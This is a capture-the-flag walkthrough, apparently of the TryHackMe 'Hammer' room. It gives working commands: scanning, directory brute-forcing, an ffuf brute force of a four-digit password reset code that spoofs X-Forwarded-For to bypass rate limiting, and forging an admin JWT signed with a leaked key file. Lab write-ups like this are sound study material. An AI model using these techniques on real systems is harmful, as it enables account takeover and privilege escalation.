 - port scanning phase:
	nmap -sC -sV -p- {IP}![](Pasted%20image%2020241206130150.png)
	![](Pasted%20image%2020241206131016.png)

- inspect source page
	![](Pasted%20image%2020241206131028.png)

- dir enumeration phase
```
gobuster dir --url http://10.10.208.169:1337/hmr_ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -p pattern.txt (hmr_{GOBUSTER})
```
![](Pasted%20image%2020241206145639.png)

- logs dir check
	![](Pasted%20image%2020241206145719.png)
	![](Pasted%20image%2020241206145732.png)
- email address found: tester@hammer.thm
	![](Pasted%20image%2020241206145934.png)
		![](Pasted%20image%2020241206150228.png)
- check for cookies (PHPSESSID: eevapv194ivfivf2ovtibf4vp9)
	![](Pasted%20image%2020241206174908.png)

- using burp for security code fuzz (OTP)
	![](Pasted%20image%2020241206151052.png)

- we have a Rate-Limit-Pending response header and we have to bypass it using 'X-Forwarded- For' request header spoofing our IP address
- let s generate a list of possible code combinations (0000-9999) using: 
  ```
  seq 0000 9999 >> codes.txt
  ```

- we will be using  `ffuf → X-Forwarded-For`
```
ffuf -w codes.txt -u "http://10.10.252.115:1337/reset_password.php" -X "POST" -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=7fk71t34qtmphh4s7ge6o7k07n" -H "X-Forwarded-For: FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s 
```
![](Pasted%20image%2020241206181128.png)

- `**-w codes.txt**`: Specifies the wordlist (`codes.txt`) that will be used for fuzzing. This wordlist contains the payloads that will replace the `FUZZ` keyword in the command.
- `**-u "http://hammer.thm:1337/reset_password.php"**`: The URL of the target web application. This is where the fuzzing request will be sent.
- `**-X "POST"**`: Specifies the HTTP method to be used, which in this case is `POST`.
- `**-d "recovery_code=FUZZ&s=60"**`: The data being sent in the body of the POST request. The `FUZZ` keyword here will be replaced with each entry from `codes.txt` during the fuzzing process. It appears that the fuzzing is targeting the `recovery_code` parameter.
- `**-H "Cookie: PHPSESSID=datlnccflgrmhqc9d5pkb6b8a7"**`: Adds a custom header to the request, specifically a `Cookie` header with a session ID. This is likely needed to maintain a session with the web application.
- `**-H "X-Forwarded-For: FUZZ"**`: Adds another custom header, `X-Forwarded-For`, which is often used to identify the originating IP address of a client connecting to a web server. In this case, it's being fuzzed to see if the application behaves differently based on the IP address.
- `**-H "Content-Type: application/x-www-form-urlencoded"**`: Specifies the content type of the data being sent. This is typical for form submissions.
- `**-fr "Invalid"**`: Filters out responses that contain the string `"Invalid"`. This helps in identifying successful or interesting responses that differ from the common invalid ones.
- `**-s**`: Runs `ffuf` in silent mode, which reduces the amount of output to only essential information.

- we obtained following access code: 6707 and after resseting user password we are in
	![](Pasted%20image%2020241206182436.png)![](Pasted%20image%2020241206182553.png)
- we have found a key
	![](Pasted%20image%2020241206235920.png)
- running other command(high privileged ones) is not allowed so we have to bypass it 
	![](Pasted%20image%2020241207000646.png)
- lets decode the JWT token and try to elevate our privileges
	![](Pasted%20image%2020241207000939.png)

- since the key that we have found is stored on the web page --> location of the kid is : /var/www/html/188ade1.key
- we will modify our role in the payload (user --> admin)
- we will sign using the value that we found in 188ade1.key as a secret
	![](Pasted%20image%2020241207002042.png)![](Pasted%20image%2020241207002131.png)

- changing the authorization bearer token we escalated our privileges
	  ![](Pasted%20image%2020241207002820.png)